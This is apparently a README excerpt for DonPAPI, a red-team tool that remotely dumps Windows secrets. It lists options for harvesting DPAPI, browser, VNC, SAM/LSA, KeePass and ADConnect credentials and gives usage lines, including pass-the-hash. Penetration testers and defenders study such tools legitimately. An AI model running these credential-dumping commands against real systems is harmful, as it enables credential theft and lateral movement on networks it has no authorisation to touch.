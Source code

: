 ```
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the
                        command line
  -aesKey hex key       AES key to use for Kerberos Authentication (1128 or 256 bits)
  -local_auth           use local authentification
  -laps                 use LAPS to request local admin password

connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

Reporting:
  -R, --report          Only Generate Report on the scope
  --type TYPE           only report "type" password (wifi,credential-blob,browser-internet_explorer,LSA,SAM,taskscheduler,VNC,browser-chrome,browser-firefox
  -u, --user            only this username
  --target              only this target (url/IP...)

attacks:
  --no_browser          do not hunt for browser passwords
  --no_dpapi            do not hunt for DPAPI secrets
  --no_vnc              do not hunt for VNC passwords
  --no_remoteops        do not hunt for SAM and LSA with remoteops
  --GetHashes           Get all users Masterkey's hash & DCC2 hash
  --no_recent           Do not hunt for recent files
  --no_sysadmins        Do not hunt for sysadmins stuff (mRemoteNG, vnc, keepass, lastpass ...)
  --from_file FROM_FILE
                        Give me the export of ADSyncQuery.exe ADSync.mdf to decrypt ADConnect password
```

## Usage

Dump all secrets of the target machine with an Domain admin account : 

```bash
DonPAPI domain/user:passw0rd@target
```
or a Local one : 
```
DonPAPI -local_auth user@target
```
Using PtH

```bash
DonPAPI --hashes <LM>:<NT> domain/user@target
```
